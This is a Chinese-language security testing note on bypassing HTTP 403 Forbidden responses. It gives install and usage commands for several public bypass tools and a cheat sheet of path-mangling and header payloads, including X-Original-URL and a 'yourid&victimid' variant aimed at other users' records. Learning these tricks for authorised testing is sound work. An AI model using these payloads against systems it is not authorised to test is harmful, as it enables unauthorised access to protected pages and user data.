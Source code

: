 # 几个工具
## 1、byp4xx

`https://github.com/lobuhi/byp4xx`  <br>
安装： <br>

```shell
git clone https://github.com/lobuhi/byp4xx.git
cd byp4xx
chmod u+x byp4xx.py
./byp4xx.py
or
python3 byp4xx.py
```

或者使用pip安装：<br>

`pip install git+https://github.com/lobuhi/byp4xx.git` <br>
使用方法： <br>

`python3 byp4xx.py <cURL options> <target>`
示例： <br>

`python3 byp4xx.py https://www.google.es/test` <br>
byp4xx还自带了一个不错的字典，当使用默认参数测试完毕后，它会询问你是否使用自带的字典再跑一遍： <br>
![img.png](img.png)


## 2、Bypass-403

`https://github.com/iamj0ker/bypass-403`


安装：

```shell
git clone https://github.com/iamj0ker/bypass-403
cd bypass-403
chmod +x bypass-403.sh
sudo apt install figlet  #依赖安装
```


使用方法：

```shell
/bypass-403.sh https://example.com admin
或
./bypass-403.sh website-here path-here
```


## 3、forbinddenpass

`https://github.com/gotr00t0day/forbiddenpass`

安装：

```shell
git clone https://github.com/gotr00t0day/forbiddenpass.git

cd forbiddenpass

pip3 install -r requirements.txt

python3 forbiddenpass.py -h
```


使用方法：

`forbiddenpass.py [-h] [-p domain.com] [-d filename.txt] [-t site.com]`

示例：


```shell
python3 forbiddenpass.py -d domains.txt

python3 forbiddenpass.py -d domains.txt --path login

python3 forbiddenpass.py -t https://site

python3 forbiddenpass.py -t https://site --path login

```

# 403 tricks
## 403 Bypass tricks
https://twitter.com/mamunwhh/status/1496786769316294659
```
Bypass 403 on /api/v1/user/id

/api/v1/user/id.json
/api/v1/user/id?
/api/v1/user/id/
/api/v2/user/id
/api/v1/user/id&accountdetail
/api/v1/user/yourid&victimid
X-Original-URL: /api/v1/user/id/


```


## trick01
https://systemweakness.com/how-i-bypassed-403-forbidden-domain-using-a-simple-trick-c2d538de04b8

```
dig redacted.com

```
![img_1.png](img_1.png)

要点: 从 `$dig target.com `知道 CNAME 后.....如何获得 200 ....🤔🤔 ====>在浏览器中点击 cname



## trick02
https://twitter.com/remonsec/status/1290354885850886144
```shell
$ http://site.com/wp-admin/install.php > 403
$ http://site.com/wp-admin/install.php/* > 200
```
![img_2.png](img_2.png)

## trick03
https://twitter.com/iam_j0ker/status/1303658167205728256
![img_3.png](img_3.png)


还有一个工具仓库:<br>
https://github.com/yunemse48/403bypasser


## 重要ppt

https://docs.google.com/presentation/d/1ek6DzXKBQd6xUiVNGRT33pMACs8M13CSoYCkgepDKZk/edit#slide=id.gb344e2d586_0_278

已经下载了!!!





